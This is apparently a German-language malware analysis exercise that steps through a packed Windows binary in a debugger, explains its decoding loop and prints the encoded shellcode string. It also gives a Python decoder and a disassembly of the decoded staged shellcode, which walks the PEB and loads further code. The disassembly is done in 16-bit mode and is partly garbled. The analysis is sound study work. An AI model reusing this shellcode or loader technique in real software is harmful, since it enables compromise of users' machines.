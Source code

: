 1. Das EIP (Entry Instruction Pointer) wurde manuell auf die Adresse 0x00401000 gesetzt.

2. Wir haben mehrmals den Befehl "Step Over" verwendet, bis wir die Adresse 0x00401037 erreicht haben.
➤ Was sich geändert hat:
Der Funktionsname wurde manuell zu "CreateFileA" umbenannt, um die Lesbarkeit und Analyse zu erleichtern.
Der Wert von EAX hat sich von 0x00000000 auf 0x000000EC geändert.

3. Wir haben weiterhin den Befehl "Step Over" ausgeführt, bis wir die Adresse 0x0040105E erreicht haben. Dort blieb die Ausführung jedoch blockiert und konnte nicht fortgesetzt werden. Erst nachdem im Speicher vollständiger Zugriff (Full Access) auf die Adresse 0x0040105E gewährt wurde, konnte die Analyse mit dem nächsten Schritt fortgesetzt werden.
➤ Was sich geändert hat:
EAX = 0x00000CB5 ⇒ AL = 0xB5 (niedrigstes Byte von AX)
Wert 0xB5 wurde in den Speicher geschrieben
EDI = 0x00401069 (Zieladresse)
ESI = 0x0040106A (Quelladresse oder nächste Instruktion)
ECX = 0x017C (380 dezimal)

4. Wir haben weiterhin den Befehl "Step Over" verwendet, bis wir erneut die Adresse 0x0040105E erreicht haben, an der die Instruktion "STOSB" (AA) ausgeführt wurde. STOSB speichert ein Byte aus dem Register AL in eine bestimmte Speicheradresse.

Die Adresse 0x0040105E befindet sich innerhalb einer Schleife, die wie folgt aufgebaut ist:

```
0040104C | AC            | LODSB         ; lädt ein Byte von [ESI] in AL
0040104D | 66:2D 6100    | SUB AX, 0x61  ; Subtrahiert 0x61 von AX
00401051 | 66:C1E0 04    | SHL AX, 4     ; Shiftet AX um 4 Bit nach links
00401055 | 66:8BD0       | MOV DX, AX    ; Kopiert AX nach DX
00401058 | AC            | LODSB         ; Lädt nächstes Byte in AL
00401059 | 2C 61         | SUB AL, 0x61  ; Subtrahiert 0x61 von AL
0040105B | 66:03C2       | ADD AX, DX    ; Addiert DX zu AX
0040105E | AA            | STOSB         ; Speichert AL in [EDI]
0040105F | 49            | DEC ECX       ; Dekrementiert ECX
00401060 | 75 EA         | JNE 0040104C  ; Springt zurück, wenn ECX ≠ 0
```

Die Schleife liest bei jeder Iteration zwei kodierte Zeichen, wandelt sie in einen binären Wert (4 Bit + 4 Bit) um, und schreibt das resultierende Byte in einen Speicherpuffer.
Dieser Vorgang wird 380 Mal wiederholt (ECX = 0x017C), um ein Payload aus 760 Zeichen zu rekonstruieren.

5. Wir haben weiterhin "Step Over" verwendet, bis wir die Adresse 0x0040106A erreicht haben. Dort wurde die Instruktion "IN AL, DX" (Opcode: EC) ausgeführt.

Die Instruktion "IN AL, DX" liest ein Byte von einem I/O-Port, dessen Adresse im Register DX gespeichert ist, und speichert es im Register AL.

Um zu analysieren, worauf genau diese Instruktion zugreift, haben wir die verschlüsselte Zeichenkette ab der Adresse ESI = 0x0040106A extrahiert und mit einem Python-Skript entschlüsselt.

Das verwendete Python-Skript:

```python
encoded = "Yl_mYd_mfmfdfgfh]hef`abbaaaaaa_jboabaaaaYpef`mge[bdaaaaaaaYleaamYlhabm[nYlfiaiYjfn_mYlen`aYlhn`mfbYlef_mYlhadmYlheaghiad`afgYlhgcaad`add]jejeb[nadef_mdd^lap\\\\obadk^gheai]b]lanad^kea_l`bdlbphf_gfoYlfoceadfn_mggYlamelYlfobmadfn_mYlaeYladef_m[lfj_c\\\\fdd]aYjef_iYjef_eYdef_eaegkaaYlef_efaYlen`m`pfbbaYjef`eYdhn`e`phegnYbhn`eaacaaaaahnac_lgcgkeagiaabaaaaaYlff`efcgkaaYlef`m`pfadeYjef`igkaagkaagkaaYlen_efbYlff`m`pfcdagkaaYnef_ifaYlen`efbYlff`ifcYlef_efaYlen`m`pfbcmYlff`iadff`eYbhk`mgfgpggakhfac_lcagiaaYaaaaaYle"

data = [ord(c) for c in encoded]

def decrypt(data):
    decrypted = bytearray()
    i = 0
    while i < len(data) - 1:
        a = data[i]
        b = data[i + 1]
        val = ((a - 0x61) << 4) + (b - 0x61)
        decrypted.append(val & 0xFF) 
        i += 2
    return decrypted

decrypted_bytes = decrypt(data)

with open("decrypted_output.bin", "wb") as f:
    f.write(decrypted_bytes)
```

Das Skript generierte die Datei decrypted_output.bin, welche den entschlüsselten Shellcode enthält, der ursprünglich an der Adresse ESI = 0040106A gespeichert war.

Wir haben dann das Tool ndisasm verwendet, um diesen Binärcode zu disassemblieren. Das hat uns ermöglicht, die genaue Funktion der IN AL, DX-Instruktion zu erkennen. Die Ausgabe war wie folgt:
```asm
00000000  8BEC              mov bp,sp
00000002  83EC5C            sub sp,byte +0x5c
00000005  53                push bx
00000006  56                push si
00000007  57                push di
00000008  C745F01100        mov word [di-0x10],0x11
0000000D  0000              add [bx+si],al
0000000F  E91E01            jmp 0x130
00000012  0000              add [bx+si],al
00000014  8F45FC            pop word [di-0x4]
00000017  64A13000          mov ax,[fs:0x30]
0000001B  0000              add [bx+si],al
0000001D  8B400C            mov ax,[bx+si+0xc]
00000020  8B701C            mov si,[bx+si+0x1c]
00000023  AD                lodsw
00000024  8B5808            mov bx,[bx+si+0x8]
00000027  895DEC            mov [di-0x14],bx
0000002A  8B4DF0            mov cx,[di-0x10]
0000002D  8B7DFC            mov di,[di-0x4]
00000030  51                push cx
00000031  8B45EC            mov ax,[di-0x14]
00000034  8B703C            mov si,[bx+si+0x3c]
00000037  8B7406            mov si,[si+0x6]
0000003A  7803              js 0x3f
0000003C  F056              lock push si
0000003E  8B7620            mov si,[bp+0x20]
00000041  03F0              add si,ax
00000043  33C9              xor cx,cx
00000045  49                dec cx
00000046  41                inc cx
00000047  AD                lodsw
00000048  0345EC            add ax,[di-0x14]
0000004B  33DB              xor bx,bx
0000004D  0FABE1            bts cx,sp
00000050  039D6740          add bx,[di+0x4067]
00000054  7C0C              jl 0x62
00000056  B0D0              mov al,0xd0
00000058  2DA4FE            sub ax,0xfea4
0000005B  AF                scasw
0000005C  13B1F74E          adc si,[bx+di+0x4ef7]
00000060  65D8B5E240        fdiv dword [gs:di+0x40e2]
00000065  35CEC6            xor ax,0xc6ce
00000068  58                pop ax
00000069  B0C4              mov al,0xc4
0000006B  A8B5              test al,0xb5
0000006D  E1C0              loope 0x2f
0000006F  35CEB8            xor ax,0xb8ce
00000072  B038              mov al,0x38
00000074  B034              mov al,0x34
00000076  4E                dec si
00000077  BAB58E            mov dx,0x8eb5
0000007A  1BB533C0          sbb si,[di-0x3fcd]
0000007E  8945E8            mov [di-0x18],ax
00000081  8945E4            mov [di-0x1c],ax
00000084  8345E404          add word [di-0x1c],byte +0x4
00000088  6A00              push byte +0x0
0000008A  8B45E4            mov ax,[di-0x1c]
0000008D  50                push ax
0000008E  8B4DFC            mov cx,[di-0x4]
00000091  FF5110            call [bx+di+0x10]
00000094  8945F4            mov [di-0xc],ax
00000097  837DF4FF          cmp word [di-0xc],byte -0x1
0000009B  746D              jz 0x10a
0000009D  817DF40020        cmp word [di-0xc],0x2000
000000A2  0000              add [bx+si],al
000000A4  7D02              jnl 0xa8
000000A6  EB62              jmp short 0x10a
000000A8  6A40              push byte +0x40
000000AA  680010            push word 0x1000
000000AD  0000              add [bx+si],al
000000AF  8B55F4            mov dx,[di-0xc]
000000B2  52                push dx
000000B3  6A00              push byte +0x0
000000B5  8B45FC            mov ax,[di-0x4]
000000B8  FF5034            call [bx+si+0x34]
000000BB  8945F8            mov [di-0x8],ax
000000BE  6A00              push byte +0x0
000000C0  6A00              push byte +0x0
000000C2  6A00              push byte +0x0
000000C4  8B4DE4            mov cx,[di-0x1c]
000000C7  51                push cx
000000C8  8B55FC            mov dx,[di-0x4]
000000CB  FF5230            call [bp+si+0x30]
000000CE  6A00              push byte +0x0
000000D0  8D45E8            lea ax,[di-0x18]
000000D3  50                push ax
000000D4  8B4DF4            mov cx,[di-0xc]
000000D7  51                push cx
000000D8  8B55F8            mov dx,[di-0x8]
000000DB  52                push dx
000000DC  8B45E4            mov ax,[di-0x1c]
000000DF  50                push ax
000000E0  8B4DFC            mov cx,[di-0x4]
000000E3  FF512C            call [bx+di+0x2c]
000000E6  8B55F8            mov dx,[di-0x8]
000000E9  0355F4            add dx,[di-0xc]
000000EC  817AFC656F        cmp word [bp+si-0x4],0x6f65
000000F1  660A7502          o32 or dh,[di+0x2]
000000F5  EB20              jmp short 0x117
000000F7  680080            push word 0x8000
000000FA  0000              add [bx+si],al
000000FC  8B                db 0x8b
```

Die Instruktion MOV EAX, FS:[0x30], die wir bei Adresse 0x00000017 gefunden haben, zeigt, dass der Shellcode versucht, auf den Process Environment Block, also den PEB, zuzugreifen.
Das ist bei vielen Shellcodes ganz typisch – sie holen sich damit Infos über den Prozess, zum Beispiel wo genau die wichtigen DLLs wie kernel32.dll im Speicher liegen.
Danach werden Funktionen wie LoadLibrary oder GetProcAddress verwendet, um weitere Funktionen zu laden. So kann der Shellcode seine eigentliche Payload nach und nach ausführen – also genau das, was man bei einem staged Shellcode erwartet.
